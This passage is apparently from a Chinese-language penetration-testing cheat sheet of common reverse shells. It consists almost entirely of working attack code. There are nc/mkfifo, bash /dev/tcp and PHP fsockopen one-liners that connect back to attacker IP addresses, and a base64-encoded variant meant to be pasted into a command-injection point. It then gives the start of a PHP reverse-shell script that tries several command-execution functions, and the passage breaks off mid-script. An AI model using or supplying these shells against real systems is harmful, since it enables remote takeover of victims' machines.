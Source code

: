 - 常见反弹 shell

  ```bash
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.103 443 >/tmp/f
  
  bash -c "bash -i >& /dev/tcp/192.168.0.103/6666 0>&1"
  
  在kali里输入：
  └─# echo "bash -i &> /dev/tcp/192.168.2.7/1234 0>&1"|base64
  YmFzaCAtaSAmPiAvZGV2L3RjcC8xOTIuMTY4LjIuNy8xMjM0IDA+JjEK
  在 命令执行的地方 输入：
  echo "YmFzaCAtaSAmPiAvZGV2L3RjcC8xOTIuMTY4LjIuNy8xMjM0IDA+JjEK"|base64 -d|bash
  
  php -r '$sock=fsockopen("10.10.10.144",1234);exec("/bin/bash <&3 >&3 2>&3");'
  
  反弹shell时最好 /bin/bash -c 加参数尝试
  /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.103/1234 0>&1'
  ```
  
  一个 php 反弹 shell 脚本
  
  ```php
  <?php
  function which($pr) {
  	$path = execute("which $pr");
  	return ($path ? $path : $pr);
  	}
  function execute($cfe) {
  	$res = '';
  	if ($cfe) {
  		if(function_exists('exec')) {
  			@exec($cfe,$res);
  			$res = join("\n",$res);
  			} 
  			elseif(function_exists('shell_exec')) {
  			$res = @shell_exec($cfe);
  			} elseif(function_exists('system')) {
  @ob_start();
  @system($cfe);
  $res = @ob_get_contents();
  @ob_end_clean();
  } elseif(function_exists('passthru')) {
  @ob_start();
  @passthru($cfe);
  $res = @ob_get_contents();
  @ob_end_clean();
  } elseif(@is_resource($f = @popen($cfe,"r"))) {
  $res = '';
  while(!@feof($f)) {
  $res .= @fread($f,1024);
  }
  @pclose($f);
  }
  }
  return $res;
  }
  function cf($fname,$text){
  if($fp=@fopen($fname,'w')) {
  @fputs($fp,@base64_decode($text));
  @fclose($fp);
  }
  }
  $yourip = "your IP";
  $yourport = 'your port';
  $usedb = array('perl'=>'perl','c'=>'c');
  ```